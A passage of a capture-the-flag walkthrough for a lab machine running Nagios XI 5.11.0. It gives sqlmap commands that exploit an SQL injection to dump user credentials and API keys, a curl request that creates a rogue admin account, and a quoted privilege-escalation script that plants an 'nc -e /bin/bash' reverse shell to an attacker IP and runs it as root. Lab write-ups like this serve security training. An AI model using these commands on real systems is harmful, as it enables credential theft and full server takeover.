

and we can see the version of application bottom left corner 


searching for specific Nagios XI version version 5.11.0 → https://github.com/advisories/GHSA-67j9-xc8r-7vqm?source=post_page-----9d5dd6563f8c---------------------------------------

this vulnerability allows authenticated attacker to execute Arbitrary SQL commands via id parameter at → ***nagiosxi/admin/banner_message-ajaxhelper.php***

according to vulnerability we should get the SQL error message but unfortunately i didn’t found the appropriate response, after some trial-error i found the https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c



and boom we got the SQL error back!, i’ll be using `sqlmap` 

```powershell
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --data="action=acknowledge_banner_message&id=1" -p id --cookie="nagiosxi=i9acgts1ncahmjl93eo9lc32hd"
```



now we’ll add `--dbms mysql` and `--dbs` to specify the DBMS to mysql and enumerate DBs respectively



let’s list the table name using `-D nagiosxi --tables` 



we assume that the `xi_users` may contains login info and useful information below is thee final command i ran to get username,password and api key

```powershell
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --data="action=acknowledge_banner_message&id=1" -p id --cookie="nagiosxi=i9acgts1ncahmjl93eo9lc32hd" --dbms mysql -D nagiosxi -T xi_users -C user_id,username,api_key,pass
word --dump
```



now i am going to create admin user for that need to read the API documentation from → https://nagios.monitored.htb/nagiosxi/help/

we found the https://www.exploit-db.com/exploits/44560 vulnerability, reading the exploit i found that, we need to `username, password, name, email, auth_level, force_pw_change`



let’s send the request to create user, first i thought i need to send parameters in JSON Body but then i found that we need to parse argument as body

```powershell
curl -X POST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1' -k -d "username=0xh3x&email=0xh3x@hex.com&name=0xh3x&password=0xh3x&auth_level=admin&force_pw_change=0"
```



nice the user now has been created successfully, let’s login to that account



click on `Admin` 



i tried to access SSH terminal but no success there, i’ll go to core config manager and under host i checked the configuration of localhost



it has the option to add commands from dropdown, i checked the side-menu and found the 



commands option here,  let’s create a commaand



and then click on `Add New` , name of the command, and shell commands and then save it



now in host management, select created command from dropdown, and click on “***Run Check Command***”



and we got the shell



user.txt can be found at /home/nagios/user.txt → 2a8f487b06dad88cd87eb2c6da32f883

running `sudo -l` i found that nagios user has the many commands to run as root using sudo



searching for local privilege escalation vulnerability i found → https://gist.github.com/sec-fortress/6d128a5e290e873be4c2ca27b6579eca

this exploit abuse the `manage_services.sh` and below is the exploit script

```bash
#!/bin/bash

# Create npcd script
echo "#!/bin/bash" > /tmp/npcd
echo "nc -e /bin/bash <Attacker IP> 4445" >> /tmp/npcd

# Grant executable permissions on the npcd script
chmod +x /tmp/npcd 2>/dev/null

# Stop the npcd service
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

# Replace original npcd script
cp /tmp/npcd /usr/local/nagios/bin/npcd 2>/dev/null

echo "[+] Start Up your listener"
sleep 1
echo "[+] nc -lvnp 4445"

sleep 15

echo "[+] Expect your shellzz xD"

# start service to recieve reverse shell
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd

sleep 5

echo "[+] done"
```

change the IP address and start the netcat listener on port 4445 and run the exploit script on target machine 

